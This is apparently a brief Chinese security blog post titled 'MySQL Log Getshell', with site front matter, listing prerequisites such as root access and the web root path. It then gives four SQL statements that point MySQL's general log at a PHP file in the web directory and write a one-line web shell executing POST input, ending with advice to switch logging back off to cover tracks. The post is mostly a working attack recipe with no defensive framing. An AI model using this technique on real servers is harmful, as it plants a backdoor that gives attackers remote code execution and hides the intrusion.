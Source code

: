 ```yaml
---
title: "MySQL Log Getshell"
date: 2018-01-09T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



require:

- root权限.
- 网站物理路径.
- 文件位置未被限制.

<!--more-->

```
set global general_log = on;
set global general_log_file = 'F:/phpStudy/WWW/a.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

别忘了处理后事 (off).
